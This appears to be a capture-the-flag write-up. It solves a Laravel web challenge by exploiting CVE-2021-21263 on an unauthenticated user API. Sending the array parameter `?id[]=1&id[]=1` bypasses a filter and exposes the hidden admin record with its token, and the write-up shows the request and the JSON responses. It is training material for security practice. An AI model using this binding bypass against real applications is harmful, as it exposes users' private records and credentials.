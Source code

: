 # Challenge 30 (Expecty Bindy) Solve

* Category - Laravel
* Difficulty - Hard

![](challenge-30.png)

 * This challenge was another Laravel one with a table loading of tons of users.
 * Right out of the gate, I noticed user 1 was not loaded so that probably means something
 * Additionally, it says `Powered via Laravel 8.22.0` at the bottom
 * So it was time to go look at the next release after 8.22.0 to see what was patched.
 * Sure enough, didn't take long to find a [blog post](https://blog.laravel.com/security-laravel-62011-7302-8221-released)

![](challenge-30-vuln.png)

 * That then points us to [CVE-2021-21263](https://github.com/laravel/framework/security/advisories/GHSA-3p32-j457-pg5x)
 * Thus, we probably have our exploit path.
 * So lets peek into the API call that this endpoint uses.

```json
{
  "data": [
    {
      "id": 2,
      "name": "User A",
      "email": "usera@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 3,
      "name": "User B",
      "email": "userb@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 4,
      "name": "User C",
      "email": "userc@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 5,
      "name": "User D",
      "email": "userd@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 6,
      "name": "User E",
      "email": "usere@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 7,
      "name": "User F",
      "email": "userf@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 8,
      "name": "User G",
      "email": "userg@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    },
    {
      "id": 9,
      "name": "User H",
      "email": "userh@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    }
  ],
  "payload": []
}
```

 * It appears this just returns information with no authentication.
 * So the page talked about adding filtering. So lets add `?id=2`

```json
{
  "data": [
    {
      "id": 2,
      "name": "User A",
      "email": "usera@s0urc3704dc7f.com",
      "is_admin": false,
      "remember_token": null
    }
  ],
  "payload": {
    "id": "2"
  }
}
```

 * That worked! So lets ask for `id=1`
 * Unfortunately that did not work.

```json
{
  "data": [],
  "payload": {
    "id": "1"
  }
}
```

* So finding the [explanation](https://kanecohen.com/blog/laravel-security-update-jan-13/) of the exploit
* We know the exploit works by taking the input of one query parameter to the next.
* So lets adapt our example to `?id[]=1&id[]=1`

```json
{
  "data":[
    {
      "id":1,
      "name":"Admin",
      "email":"admin@s0urc3704dc7f.com",
      "is_admin":true,
      "remember_token":"TOAD{cV3-hUnt1N9-15-L4R4FUN}"
    }
  ],
  "payload":{
    "id":[
      "1",
      "1"
    ]
  }
}
```

* Which worked!
* The flag was hiding in the `remember_token` field.

---

* You are left with the flag - `TOAD{cV3-hUnt1N9-15-L4R4FUN}`.